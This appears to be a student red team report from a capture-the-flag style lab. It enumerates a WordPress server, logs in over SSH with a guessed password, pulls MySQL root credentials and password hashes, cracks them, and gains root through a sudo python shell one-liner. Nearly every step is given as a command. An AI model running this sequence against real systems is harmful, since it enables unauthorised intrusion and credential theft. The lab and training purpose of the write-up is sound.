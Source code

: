 # Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](https://github.com/GarinJTanner/Final-Project/blob/main/Red-Team.md#exposed-services)
- [Critical Vulnerabilities](https://github.com/GarinJTanner/Final-Project/blob/main/Red-Team.md#critical-vulnerabilities)
- [Exploitation](https://github.com/GarinJTanner/Final-Project/blob/main/Red-Team.md#exploitation)

## Exposed Services
Nmap scan results for 192.168.1.110 reveal the below services and OS details:  
~~~
nmap -sV 192.168.1.110  
~~~

![red111](https://user-images.githubusercontent.com/32025331/155897831-3ed2d82f-ea06-4b2b-88a5-ca45a22de921.PNG)   

This scan identifies the services below as potential points of entry:  
  
- OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)  
- Apache httpd 2.4.10 ((Debian))  

## Critical Vulnerabilities

The following vulnerabilities were identified:

**CWE-521 - Weak server password**
- Server does not require strong user passwords, making it vulnerable to brute force attacks. 
- *Severity:* High

**CWE-916 - Unsalted hashed passwords**
- Hashed passwords that are unsalted can be easily cracked using free softare like john the ripper.
- *Severity:* Medium

**CWE-269** - Improper Privilege Management**
- The server does not properly assign privileges for users, allowing for a known Python vulnerability to be executed.
- *Severity:* Medium

 ## Exploitation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:


### flag1{b9bbcb33e11b80be759c4e844862482d}
Tools used: dirb, wpscan  
- Using dirb we were able to find a wordpress page: 192.168.1.110/wordpress  

![red10](https://user-images.githubusercontent.com/32025331/155897106-083e1297-c5d6-490f-af59-1ac251500554.PNG)


- From there we ran wpscan: 
~~~
wpscan -–url http://192.168.1.110/wordpress --wp-content-dir -at -eu
~~~
![red13](https://user-images.githubusercontent.com/32025331/155897592-cb46a654-efc7-48f6-a220-833e3841df88.PNG)  

We then found two login names: Steven and Michael  
![red14](https://user-images.githubusercontent.com/32025331/155897593-ce8c5a5b-778a-486d-9d9d-c38249113aa4.PNG)  

By sheer luck, we guessed the password without brute force:  
~~~
ssh michael@192.168.1.110
Password: michael
cd ../../var/www/html
grep -RE flag1
~~~
![red222](https://user-images.githubusercontent.com/32025331/155898152-706f9b4c-607d-4a1a-83f1-742a2217463d.PNG)  
  
  
**flag2{fc3fd58dcdad9ab23faca6e9a36e581c}**  
Using the same credentials, we SSH into the webserver:
~~~ 
ssh michael@192.168.1.110
Password: michael
cd ../../var/www/
grep -RE flag2
~~~
![red15](https://user-images.githubusercontent.com/32025331/155897666-7187d4ef-e7dc-4231-985f-f4c87a644dfa.PNG)


**flag3{afc01ab56b50591e7dccf93122770cd2}**  
**flag4{715dea6c055b9fe3337544932f2941ce}**  
Tools used: SSH, MySQL  
~~~
ssh michael@192.168.1.110
Password: michael
cd /var/www/html/wordpress
nano wp-config.php  
~~~

![red444](https://user-images.githubusercontent.com/32025331/155898231-ca6b815e-0a07-46dd-a844-b6eaf18d26cb.PNG)  
Within wp-config.php we were able to find credentials to a MySQL database.
~~~
mysql -u root -pR@v3nSecurity
show databases;
use wordpress;
show tables;
select post_content from wp_posts;
~~~
![red443](https://user-images.githubusercontent.com/32025331/155898281-266c6765-2025-49e4-96d2-a7b4f359dbd8.PNG)  
  
**Flag 4 from Steven’s account**  
- Tools used: SSH, MySQL, johntheripper  
- Using the MySQL credentials from before:  
~~~
mysql -u root -pR@v3nSecurity
show databases;
use wordpress;
show tables;
select user_login, user_pass from wp_users;
~~~  
![red555](https://user-images.githubusercontent.com/32025331/155898316-716315ab-4684-4dbe-bbad-8c096ebbd92a.PNG)  
We found the hashed passwords within the wp_users table.  
Exit back out to Kali. From here we can use John the Ripper:  

SSH into the webserver using Steven’s credentials:  
~~~
ssh steven@192.168.1.110
Password: pink84
~~~
Now we run a python exploit:
~~~
sudo /usr/bin/python -c 'import os;os.system("/bin/sh")'
whoami
cd /root
cat flag4.txt
~~~
![Capture](https://user-images.githubusercontent.com/32025331/155902751-aee3738f-b49c-4601-8dfb-6d6a4ad1466b.PNG)
